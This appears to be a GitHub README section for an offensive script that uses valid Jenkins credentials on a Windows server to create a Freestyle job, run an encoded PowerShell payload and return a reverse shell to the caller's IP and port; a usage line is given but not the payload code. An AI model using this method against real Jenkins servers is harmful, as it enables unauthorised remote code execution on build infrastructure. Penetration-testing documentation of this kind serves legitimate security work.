 ## win_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new "Freestyle project" JOB.\
![win_revshell_cmd_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_1.png)

Then configures or BUILD it to **"Execute Windows batch command"** with the **Powershell** encoded payload.
![win_revshell_cmd_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_cmd_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_3.png)
![win_revshell_cmd_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
